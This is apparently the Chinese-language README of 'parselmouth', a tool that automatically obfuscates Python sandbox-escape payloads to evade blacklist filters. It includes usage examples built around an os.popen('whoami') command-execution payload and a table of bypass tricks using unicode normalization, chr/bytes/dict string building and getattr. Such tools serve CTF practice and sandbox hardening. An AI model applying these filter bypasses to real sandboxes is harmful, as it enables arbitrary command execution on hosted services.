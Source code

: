 # parselmouth
一个自动化的 Python 沙箱逃逸 payload bypass 框架

<img alt="image" src="https://github.com/Macr0phag3/parselmouth/assets/20874963/e4f2765d-ba39-49ba-bcf7-02ab3e83a042">

## 1. 快速入门
- python 版本最好是 >= 3.10
- 安装依赖: `pip install -r requirements`

### 1.1 通过 CLI 使用
- 获取帮助信息：`python parselmouth.py -h`
- 指定 payload 与 rule: `python parselmouth.py  --payload "__import__('os').popen('whoami').read()" --rule "__" "." "'" '"' "read" "chr"`
- 可以通过 `--specify-bypass` 指定 bypass function 的黑白名单；例如如果不希望 int 通过 unicode 字符的规范化进行 bypass，可以指定参数: `--specify-bypass '{"black": {"Bypass_Int": ["by_unicode"]}}'`
- 通过指定参数 `-v` 可以增加输出的信息；通过 `-vv` 可以输出 debug 信息，但通常是不需要的
- 在定制化 bypass 函数之后，如果想做测试，可以将测试的 payload 和 rule 放在 `run_test.py` 里面，然后通过 `python parselmouth.py --run-test` 进行测试（直接运行 `run_test.py` 也行）

### 1.2 通过 import 使用
```python
import parselmouth as p9h


p9h.BLACK_CHAR = [".", "'", '"', "chr", "dict"]
runner = p9h.P9H("__import__('os').popen('whoami').read()", specify_bypass_map={"black": {"Bypass_Name": ["by_unicode"]}}, versbose=0)
result = runner.visit()
status, c_result = p9h.color_check(result)
print(status, c_result, result)
```

`p9h.P9H` 关键参数解释：
- `source_code`: 需要 bypass 的 payload
- `specify_bypass_map`: 指定 bypass function 的黑白名单；例如如果不希望变量名通过 unicode 字符的规范化进行 bypass，可以传参 `{"black": {"Bypass_Name": ["by_unicode"]}}`
- `versbose`: 输出的详细程度（`0` ~ `3`）
- `depth`: 通常情况下不需要使用这个参数；打印信息时所需要的缩进数量
- `cannot_bypass`: 通常情况下不需要使用这个参数；用于指定无法 bypass 的情况，值示例 `["chr(97)"]`

### 1.3 定制化使用
**在定制化之前，最好先阅读下[这篇解释原理的文章](https://www.tr0y.wang/2024/03/04/parselmouth/)以及 `parselmouth.py`、`bypass_tools.py` 的主要代码**

方法一：参考文章 [传送门](https://www.tr0y.wang/2024/03/04/parselmouth/#%E5%AE%9A%E5%88%B6%E5%8C%96%E5%BC%80%E5%8F%91)

方法二：
- 要新增一个 ast 类型的识别与处理，需要在 `parselmouth.py` 中的 `P9H` 新增一个 `visit_` 方法
- 如果希望通过与目标交互的方式进行 payload 检查，可以改写 check 方法，原则是如果检查通过返回空 `[]`；如果检查不通过的话，最好是返回不通过的字符，如果条件有限，返回任意不为空的列表也可以
- 对已有的 ast 类型，需要新增不同的处理函数，则需要在 `bypass_tools.py` 中找到对应的 bypass 类型，并新增一个 `by_` 开头的方法。同一个类下的 bypass 函数，使用顺序取决于对应类中定义的顺序，先被定义的函数会优先尝试进行 bypass


## 2. 当前 bypass function

目前支持：

|  类   |   方法名  | payload | bypass | 解释说明 |
| ----- | -------- | ------- | ------- | ----- |
| Bypass_Int    | by_trans | `0` | `len(())` | |
| Bypass_Int    | by_bin   | `10` | `0b1010` |将数字转为二进制 |
| Bypass_Int    | by_hex   | `10` | `0xa`    |将数字转为十六进制 |
| Bypass_Int    | by_cal   | `10` | `5*2`    |将数字转为算式 |
| Bypass_Int    | by_unicode   | `10` | `int('𝟣𝟢')`    | int + unicode 绕过|
| ————   | ————   | ———— | ———— | ————|
| Bypass_String    | by_reverse   | `"macr0phag3"` | `"3gahp0rcam"[::-1]`    | 字符串逆序绕过|
| Bypass_String    | by_char   | `"macr0phag3"` |  `(chr(109) + chr(97) + chr(99) + chr(114) + chr(48) + chr(112) + chr(104) + chr(97) + chr(103) + chr(51))`   | char 绕过字符限制|
| Bypass_String    | by_dict   | `"macr0phag3"` | `list(dict(amacr0phag3=()))[0][1:]`  | dict 绕过限制|
| Bypass_String    | by_bytes_1   | `"macr0phag3"` | `str(bytes([109]))[2] + str(bytes([97]))[2] + str(bytes([99]))[2] + str(bytes([114]))[2] + str(bytes([48]))[2] + str(bytes([112]))[2] + str(bytes([104]))[2] + str(bytes([97]))[2] + str(bytes([103]))[2] + str(bytes([51]))[2]`  | bytes 绕过限制|
| Bypass_String    | by_bytes_2   | `"macr0phag3"` | `bytes([109, 97, 99, 114, 48, 112, 104, 97, 103, 51])`  | bytes 绕过限制 2|
| ————   | ————   | ———— | ———— | ————|
| Bypass_Name    | by_unicode   | `__import__` | `_＿import_＿` | unicode 绕过|
| ————   | ————   | ———— | ———— | ————|
| Bypass_Attribute    | by_getattr   | `str.find` | `getattr(str, 'find')` | unicode 绕过|
| ————   | ————   | ———— | ———— | ————|
| Bypass_Keyword    | by_unicode   | `str(object=1)` | `str(ᵒbject=1)` | unicode 绕过|


以及上述所有方法的组合 bypass。

如果在使用的过程中发现有比较好用的 bypass 手法，或者任何问题都可以提交 issue :D


## 3. Others
<img src="https://clean-1252075454.cos.ap-nanjing.myqcloud.com/20200528120800990.png" width="400">

[![Stargazers over time](https://starchart.cc/Macr0phag3/parselmouth.svg)](https://starchart.cc/Macr0phag3/parselmouth)
